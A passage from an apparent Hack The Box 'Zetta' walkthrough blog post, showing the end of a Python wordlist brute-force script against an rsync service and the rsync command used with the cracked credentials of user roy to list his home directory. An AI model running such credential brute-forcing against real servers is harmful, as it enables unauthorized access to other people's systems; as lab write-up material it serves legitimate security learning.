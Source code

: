     except subprocess.CalledProcessError as e:
        pass

if __name__ == "__main__":

    f = open(sys.argv[1], "r")
    num = 0

    for x in f:
        x = x.rstrip('\n')
        bruteforce(x)
        num +=1
        if(num % 100 == 0):
           print("Num: " + str(num) + " - attempted: " + x)
{% endhighlight %}

<p>And once we let is run for awhile... we get lucky!</p>

<p align="center">
<img src="{{ '/assets/htb-zetta/user-rsyncbrute.PNG' | relative_url }}">
</p>

<p>With <code>roy</code>'s credentials, we can now sync and upload files to <code>/home/roy</code>.

{% highlight shell %}
root@kali:~/Desktop/HTB/Zetta# rsync -v rsync://roy@[dead:beef::250:56ff:fea2:4d93]/home_roy --port 8730
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


Password: 
receiving file list ... done
drwxr-xr-x          4,096 2019/07/28 06:52:29 .
lrwxrwxrwx              9 2019/07/27 06:57:06 .bash_history
-rw-r--r--            220 2019/07/27 03:03:28 .bash_logout
-rw-r--r--          3,526 2019/07/27 03:03:28 .bashrc
-rw-r--r--            807 2019/07/27 03:03:28 .profile
-rw-------          4,752 2019/07/27 05:24:24 .tudu.xml
-r--r--r--             33 2019/07/27 05:24:24 user.txt

sent 20 bytes  received 184 bytes  81.60 bytes/sec
total size is 9,347  speedup is 45.82
{% endhighlight %}

